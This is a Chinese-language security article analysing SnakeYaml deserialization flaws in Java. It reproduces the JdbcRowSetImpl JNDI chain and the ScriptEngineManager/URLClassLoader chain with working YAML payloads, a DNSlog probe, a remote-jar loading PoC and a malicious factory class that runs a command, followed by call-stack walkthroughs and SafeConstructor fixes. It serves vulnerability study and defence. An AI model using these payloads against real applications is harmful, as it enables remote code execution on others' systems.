







Java安全之SnakeYaml漏洞分析与利用

* * *

# Java安全之SnakeYaml漏洞分析与利用

## 1\. 简介

SnakeYaml是Java中解析yaml的库，而yaml是一种人类可读的数据序列化语言，通常用于编写配置文件等。

**yaml基本语法**：

*   大小写敏感
*   使用缩进表示层级关系
*   缩进只允许使用空格
*   `#`表示注释
*   支持对象、数组、纯量这3种数据结构

**示例**：  
yaml对象：

```plain
key: 
    child-key: value
    child-key2: value2
```

yaml数组：

```plain
companies:
    -
        id: 1
        name: company1
        price: 200W
    -
        id: 2
        name: company2
        price: 500W
```

意思是 companies 属性是一个数组，每一个数组元素又是由 id、name、price 三个属性构成  
详细参考：[https://www.runoob.com/w3cnote/yaml-intro.html](https://www.runoob.com/w3cnote/yaml-intro.html)

**SnakeYaml库**：  
SnakeYaml提供了yaml数据和Java对象相互转换的API，即能够对数据进行序列化与反序列化。

*   Yaml.load():将yaml数据反序列化成一个Java对象
*   Yaml.dump():将Java对象序列化成yaml

## 2\. 示例

环境：JDK1.8\_66  
Maven导入依赖：

```plain
<dependency>
    <groupId>org.yaml</groupId>
    <artifactId>snakeyaml</artifactId>
    <version>1.27</version>
</dependency>
```

**序列化：**  
Person类：

```plain
package SnakeYaml;

public class Person {
    private String username;
    private int age;

    public Person() {}
    public Person(String username, int age) {
        this.username = username;
        this.age = age;
    }

    public int getAge() {
        return age;
    }

    public String getUsername() {
        return username;
    }

    public void setAge(int age) {
        this.age = age;
    }

    public void setUsername(String username) {
        this.username = username;
    }
}
```

测试类：

```plain
package SnakeYaml;

import org.yaml.snakeyaml.Yaml;

public class SnakeYamlTest {
    public static void main(String[] args) {
        Yaml yaml = new Yaml();
        Person person = new Person("mike", 18);
        String str = yaml.dump(person);
        System.out.println(str);
    }
}
```

输出结果：

```plain
!!SnakeYaml.Person {age: 18, username: mike}
```

注：这里的!!应该类似于一个标识符，表示对应的类名  
注：**序列化过程会触发类属性对应的get方法**  
**反序列化**：

```plain
package SnakeYaml;

import org.yaml.snakeyaml.Yaml;

public class SnakeYamlTest {
    public static void main(String[] args) {
        // 反序列化
        String str = "!!SnakeYaml.Person {age: 18, username: mike}";
        Yaml yaml = new Yaml();
        Person person = (Person) yaml.load(str);
        System.out.println(person);
    }
}
```

输出结果：

```plain
SnakeYaml.Person@48533e64
```

注：**反序列化过程会触发类属性对应的set方法**

## 3\. 漏洞复现与分析

### JdbcRowSetImpl链

**环境**：SnakeYaml1.27 JDK1.8\_66  
**复现与分析**：  
使用工具开启LDAP服务

```plain
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -A 127.0.0.1 -C "calc.exe"
```

POC:

```plain
!!com.sun.rowset.JdbcRowSetImpl {dataSourceName: ldap://127.0.0.1:1389/5cjybz, autoCommit: true}
```

测试类：

```plain
package SnakeYaml;

import org.yaml.snakeyaml.Yaml;

public class PocTest1 {
    public static void main(String[] args) {
        String poc = "!!com.sun.rowset.JdbcRowSetImpl {dataSourceName: ldap://127.0.0.1:1389/5cjybz, autoCommit: true}";
        Yaml yaml = new Yaml();
        yaml.load(poc);
    }
}
```

函数调用栈：

```plain
getObjectFactoryFromReference:163, NamingManager (javax.naming.spi)
getObjectInstance:189, DirectoryManager (javax.naming.spi)
c_lookup:1085, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:417, InitialContext (javax.naming)
connect:624, JdbcRowSetImpl (com.sun.rowset)
setAutoCommit:4067, JdbcRowSetImpl (com.sun.rowset)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
set:77, MethodProperty (org.yaml.snakeyaml.introspector)
constructJavaBean2ndStep:285, Constructor$ConstructMapping (org.yaml.snakeyaml.constructor)
construct:171, Constructor$ConstructMapping (org.yaml.snakeyaml.constructor)
construct:331, Constructor$ConstructYamlObject (org.yaml.snakeyaml.constructor)
constructObjectNoCheck:229, BaseConstructor (org.yaml.snakeyaml.constructor)
constructObject:219, BaseConstructor (org.yaml.snakeyaml.constructor)
constructDocument:173, BaseConstructor (org.yaml.snakeyaml.constructor)
getSingleData:157, BaseConstructor (org.yaml.snakeyaml.constructor)
loadFromReader:490, Yaml (org.yaml.snakeyaml)
load:416, Yaml (org.yaml.snakeyaml)
main:9, PocTest1 (SnakeYaml)
```

一步一步走流程，先来到Yaml类中的load方法

```plain
public <T> T load(String yaml) {
    // 实例化一个StreamReader对象
    return this.loadFromReader(new StreamReader(yaml), Object.class);
}
```

继续来到Yaml类中的loadFromReader方法

```plain
private Object loadFromReader(StreamReader sreader, Class<?> type) {
    Composer composer = new Composer(new ParserImpl(sreader), this.resolver, this.loadingConfig);
    this.constructor.setComposer(composer);
    // 进入这里
    return this.constructor.getSingleData(type);
}
```

进入BaseConstructor的getSingleData方法

```plain
public Object getSingleData(Class<?> type) {
    // 获取单个Node对象，用于表示Yaml文档中的一个节点
    Node node = this.composer.getSingleNode();
    // 检查获取的节点是否存在且不是空标签
    if (node != null && !Tag.NULL.equals(node.getTag())) {
        if (Object.class != type) {
            node.setTag(new Tag(type));
        } else if (this.rootTag != null) {
            node.setTag(this.rootTag);
        }
        // 将节点转换成Java对象并且返回
        // 进入这里
        return this.constructDocument(node);
    } else {
        // 获取与空标签关联的Construct实例, 并且将其实例化返回
        Construct construct = (Construct)this.yamlConstructors.get(Tag.NULL);
        return construct.construct(node);
    }
}
```

继续进入constructDocument函数看看如何转换成Java对象的

```plain
protected final Object constructDocument(Node node) {
    Object var3;
    try {
        // 将yaml节点转换成Java对象
        // 进入这里
        Object data = this.constructObject(node);
        // 递归，通常在yaml文档包含嵌套结构时使用
        this.fillRecursive();
        var3 = data;
    } catch (RuntimeException var7) {
        if (this.wrappedToRootException && !(var7 instanceof YAMLException)) {
            throw new YAMLException(var7);
        }

        throw var7;
    } finally {
        this.constructedObjects.clear();
        this.recursiveObjects.clear();
    }

    return var3;
}
```

继续查看constructObject函数

```plain
protected Object constructObject(Node node) {
    // 判断当前属性中是否存在与当前节点对应的Java对象，如果存在则返回该对象，如果不存在则调用constructObjectNoCheck方法创建
    return this.constructedObjects.containsKey(node) ? this.constructedObjects.get(node) : this.constructObjectNoCheck(node);
}
```

这里的this.constructedObjects属性中并没有对应的节点，所以只能调用constructObjectNoCheck函数创建

```plain
protected Object constructObjectNoCheck(Node node) {
    // 表示当前节点是一个无法构造的递归节点,即不能与其他节点相互引用
    if (this.recursiveObjects.contains(node)) {
        throw new ConstructorException((String)null, (Mark)null, "found unconstructable recursive node", node.getStartMark());
    } else {
        // 将当前节点添加到recursiveObjects属性中，以便后续检查是否存在递归引用
        this.recursiveObjects.add(node);
        // 使用getConstructor方法获取当前节点的构造器
        Construct constructor = this.getConstructor(node);
        // 如果constructedObjects属性中存在与当前节点对应的Java对象，则返回该对象。如果不存在，则调用constructor.construct方法构造Java对象
        // 进入这里
        Object data = this.constructedObjects.containsKey(node) ? this.constructedObjects.get(node) : constructor.construct(node);
        // 在构造对象之后，调用finalizeConstruction方法对其进行后续处理，例如检查是否存在未解析的属性、设置默认值等
        this.finalizeConstruction(node, data);
        // 将当前节点和对应的Java对象存储在constructedObjects属性中，以便在后续处理中使用
        this.constructedObjects.put(node, data);
        // 将当前节点从recursiveObjects属性中移除，以便在后续处理中不再检查是否存在递归引用
        this.recursiveObjects.remove(node);
        //如果当前节点需要两步构造，则调用constructor.construct2ndStep方法完成第二步构造
        if (node.isTwoStepsConstruction()) {
            constructor.construct2ndStep(node, data);
        }

        return data;
    }
}
```

这里的constructor是ConstructYamlObject对象，查看其construct方法

```plain
public Object construct(Node node) {
    try {
        // 使用getConstructor方法获取当前节点的构造器
        return this.getConstructor(node).construct(node);
    } catch (ConstructorException var3) {
        throw var3;
    } catch (Exception var4) {
        throw new ConstructorException((String)null, (Mark)null, "Can't construct a java object for " + node.getTag() + "; exception=" + var4.getMessage(), node.getStartMark(), var4);
    }
}
```

获取到的构造器是ConstructMapping对象，进入其construct函数

```plain
public Object construct(Node node) {
    // 将node转换为MappingNode类型
    MappingNode mnode = (MappingNode)node;
    // 如果当前节点的类型是Map或其子类，则调用newMap或constructMapping方法构造Java对象
    if (Map.class.isAssignableFrom(node.getType())) {
        return node.isTwoStepsConstruction() ? Constructor.this.newMap(mnode) : Constructor.this.constructMapping(mnode);
    } else if (Collection.class.isAssignableFrom(node.getType())) {
        // 如果当前节点的类型是Collection或其子类，则调用newSet或constructSet方法构造Java对象，并返回该对象
        return node.isTwoStepsConstruction() ? Constructor.this.newSet(mnode) : Constructor.this.constructSet(mnode);
    } else {
        // 如果当前节点的类型不是Map或Collection的子类，则调用newInstance方法创建一个新的Java对象，并返回该对象
        Object obj = Constructor.this.newInstance(mnode);
        // 如果当前节点需要两步构造，则调用constructJavaBean2ndStep方法完成第二步构造。如果不需要两步构造，则直接返回构造的Java对象
        return node.isTwoStepsConstruction() ? obj : this.constructJavaBean2ndStep(mnode, obj);
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230813204356-1101548e-39d7-1.png)  
在constructJavaBean2ndStep函数中，会获取yaml格式数据中的属性键值对，调用property.set()来设置上面实例化对象的属性  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230813204419-1ecd2fac-39d7-1.png)  
在MethodProperty类的set方法中，获取了响应属性的方法进行invoke

```plain
public void set(Object object, Object value) throws Exception {
    if (!this.writable) {
        throw new YAMLException("No writable property '" + this.getName() + "' on class: " + object.getClass().getName());
    } else {
        // 这里
        this.property.getWriteMethod().invoke(object, value);
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230813204440-2b4f233e-39d7-1.png)  
即会调用JdbcRowSetImpl的setAutoCommit方法，这样就成功触发了JdbcRowSetImpl链和JNDI注入了

### ScriptEngineManager链

**什么是SPI机制**  
SPI(Service Provider Interface), JDK内置的一种服务提供发现机制。它的利用方式是通过在ClassPath路径下的`META-INF/services`文件夹下查找文件，自动加载文件中所定义的类  
例如以mysql-connector包为例：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230813204502-3879ac82-39d7-1.png)  
而Dirver类中的内容是：

```plain
package com.mysql.cj.jdbc;

import java.sql.DriverManager;
import java.sql.SQLException;

public class Driver extends NonRegisteringDriver implements java.sql.Driver {
    public Driver() throws SQLException {
    }

    static {
        try {
            DriverManager.registerDriver(new Driver());
        } catch (SQLException var1) {
            throw new RuntimeException("Can't register driver!");
        }
    }
}
```

这个Driver类实现了java.sql.Driver接口，这段代码主要是将当前类的实例注册为MySQL数据库的驱动程序，实现了一个MySQL数据库的Java驱动程序，这个方法会在JVM启动时执行，从而确保了该驱动程序在应用程序启动时已经被注册。当应用程序需要连接MySQL数据库时，可以通过DriverManager类的getConnection()方法获取com.mysql.cj.jdbc.Driver类的实例，进而建立MySQL数据库连接  
**环境**：SnakeYaml1.27 JDK1.8\_66  
**复现与分析**：  
POC：

```plain
package SnakeYaml;

import org.yaml.snakeyaml.Yaml;

public class PocTest2 {
    public static void main(String[] args) {
        String poc = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://tlk0u6qn.eyes.sh\"]]]]\n";
        Yaml yaml = new Yaml();
        yaml.load(poc);
    }
}
```

dnslog平台出现请求记录，用于验证是否存在该漏洞且ScriptEngineManager链是否可用

**命令执行**：  
现成的利用项目：[https://github.com/artsploit/yaml-payload.git](https://github.com/artsploit/yaml-payload.git)  
更改里面的命令执行代码，使用以下命令进行编译即可

```plain
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```

注意：一定要使用一致的java版本进行编译  
其中在META/services文件夹的文件中，里面的内容即是我们的恶意类  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230813204529-48df84c0-39d7-1.png)  
在AwesomeScriptEngineFactory类中，它实现了ScriptEngineFactory接口

```plain
package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            // Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
            // Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator");
            Runtime.getRuntime().exec("calc.exe");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public String getEngineName() {
        return null;
    }

    @Override
    public String getEngineVersion() {
        return null;
    }

    @Override
    public List<String> getExtensions() {
        return null;
    }

    @Override
    public List<String> getMimeTypes() {
        return null;
    }

    @Override
    public List<String> getNames() {
        return null;
    }

    @Override
    public String getLanguageName() {
        return null;
    }

    @Override
    public String getLanguageVersion() {
        return null;
    }

    @Override
    public Object getParameter(String key) {
        return null;
    }

    @Override
    public String getMethodCallSyntax(String obj, String m, String... args) {
        return null;
    }

    @Override
    public String getOutputStatement(String toDisplay) {
        return null;
    }

    @Override
    public String getProgram(String... statements) {
        return null;
    }

    @Override
    public ScriptEngine getScriptEngine() {
        return null;
    }
}
```

根据上面mysql的例子可以猜测到，在ScriptEngineFactory类中应该有对我们构造的恶意类实例化的过程，在实例化时会自动调用构造函数从而导致命令执行  
在生成的jar文件目录下开启web服务

```plain
python -m http.server 8080
```

POC：

```plain
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://127.0.0.1:8080/yaml-payload.jar"]
  ]]
]
```

测试类：

```plain
package SnakeYaml;

import org.yaml.snakeyaml.Yaml;

public class PocTest2 {
    public static void main(String[] args) {
        String poc = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://127.0.0.1:8080/yaml-payload.jar\"]]]]\n";
        Yaml yaml = new Yaml();
        yaml.load(poc);
    }
}
```

函数调用栈：

```plain
nextService:381, ServiceLoader$LazyIterator (java.util)
next:404, ServiceLoader$LazyIterator (java.util)
next:480, ServiceLoader$1 (java.util)
initEngines:122, ScriptEngineManager (javax.script)
init:84, ScriptEngineManager (javax.script)
<init>:75, ScriptEngineManager (javax.script)
newInstance0:-1, NativeConstructorAccessorImpl (sun.reflect)
newInstance:62, NativeConstructorAccessorImpl (sun.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (sun.reflect)
newInstance:422, Constructor (java.lang.reflect)
construct:570, Constructor$ConstructSequence (org.yaml.snakeyaml.constructor)
construct:331, Constructor$ConstructYamlObject (org.yaml.snakeyaml.constructor)
constructObjectNoCheck:229, BaseConstructor (org.yaml.snakeyaml.constructor)
constructObject:219, BaseConstructor (org.yaml.snakeyaml.constructor)
constructDocument:173, BaseConstructor (org.yaml.snakeyaml.constructor)
getSingleData:157, BaseConstructor (org.yaml.snakeyaml.constructor)
loadFromReader:490, Yaml (org.yaml.snakeyaml)
load:416, Yaml (org.yaml.snakeyaml)
main:10, PocTest2 (SnakeYaml)
```

前面的大致步骤还是和JdbcRowSetImpl链的过程一致，这里的关键在于Constructor不一致，这里是ConstructSequence，在对ScriptEngineManager实例化的过程中就会触发命令执行  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230813204601-5bd00c30-39d7-1.png)  
接下来就来看一下ScriptEngineManager链的利用过程  
首先来到其构造函数，传入的loader是URLClassLoader

```plain
public ScriptEngineManager(ClassLoader loader) {
    init(loader);
}
```

进入init函数，都是一些属性的初始化，最后调用initEngines函数，传入loader  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230813204628-6c17a062-39d7-1.png)  
直到这一步，itr是ServiceLoader对象，会调用其next方法

```plain
public S next() {
    if (knownProviders.hasNext())
        return knownProviders.next().getValue();
    // 这里
    return lookupIterator.next();
}
```

lookupIterator是ServiceLoader$LazyIterator，调用其next方法

```plain
public S next() {
    if (acc == null) {
        // 这里
        // 获取下一个服务对象并将其返回
        return nextService();
    } else {
        // 系统中存在一个安全管理器（SecurityManager 类的一个实例），这时方法需要在特权上下文中运行
        PrivilegedAction<S> action = new PrivilegedAction<S>() {
            public S run() { return nextService(); }
        };
        // 这个方法在特权上下文中执行 PrivilegedAction<S> 对象的 run() 方法，这意味着它拥有 acc 所引用的 SecurityManager 对象授予的权限。run() 方法的结果作为 doPrivileged() 方法的结果返回，进而作为 next() 方法的结果返回
        return AccessController.doPrivileged(action, acc);
    }
}
```

这段代码用于在存在安全管理器的系统中以安全的方式获取下一个服务对象，这里直接进nextService函数

```plain
private S nextService() {
    // 检查是否还有下一个服务对象
    if (!hasNextService())
        throw new NoSuchElementException();
    // 获取下一个服务对象的类名
    String cn = nextName;
    nextName = null;
    Class<?> c = null;
    try {
        c = Class.forName(cn, false, loader);
    } catch (ClassNotFoundException x) {
        fail(service,
                "Provider " + cn + " not found");
    }
    // 如果获取类成功，方法将检查该类是否是 service 类型的子类
    if (!service.isAssignableFrom(c)) {
        fail(service,
                "Provider " + cn  + " not a subtype");
    }
    try {
        // 如果该类是 service 类型的子类，方法将会尝试通过cast方法创建一个实例对象 p，并将其存储到 providers 集合中
        // 这里
        S p = service.cast(c.newInstance());
        providers.put(cn, p);
        return p;
    } catch (Throwable x) {
        fail(service,
                "Provider " + cn + " could not be instantiated",
                x);
    }
    throw new Error();          // This cannot happen
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230813204704-817ad4f6-39d7-1.png)  
这里就是URL中jar包对应的恶意类，其构造方法中就存在命令执行函数

## 4\. 修复

*   禁止yaml.load方法中的参数可控
*   使用`Yaml yaml = new Yaml(new SafeConstructor());`  
    在`org\yaml\snakeyaml\constructor\SafeConstructor.class`构造函数中定义了反序列化类的白名单：
    
    ```plain
    public SafeConstructor(LoaderOptions loadingConfig) {
      super(loadingConfig);
      this.yamlConstructors.put(Tag.NULL, new ConstructYamlNull());
      this.yamlConstructors.put(Tag.BOOL, new ConstructYamlBool());
      this.yamlConstructors.put(Tag.INT, new ConstructYamlInt());
      this.yamlConstructors.put(Tag.FLOAT, new ConstructYamlFloat());
      this.yamlConstructors.put(Tag.BINARY, new ConstructYamlBinary());
      this.yamlConstructors.put(Tag.TIMESTAMP, new ConstructYamlTimestamp());
      this.yamlConstructors.put(Tag.OMAP, new ConstructYamlOmap());
      this.yamlConstructors.put(Tag.PAIRS, new ConstructYamlPairs());
      this.yamlConstructors.put(Tag.SET, new ConstructYamlSet());
      this.yamlConstructors.put(Tag.STR, new ConstructYamlStr());
      this.yamlConstructors.put(Tag.SEQ, new ConstructYamlSeq());
      this.yamlConstructors.put(Tag.MAP, new ConstructYamlMap());
      this.yamlConstructors.put((Object)null, undefinedConstructor);
      this.yamlClassConstructors.put(NodeId.scalar, undefinedConstructor);
      this.yamlClassConstructors.put(NodeId.sequence, undefinedConstructor);
      this.yamlClassConstructors.put(NodeId.mapping, undefinedConstructor);
    }
    ```
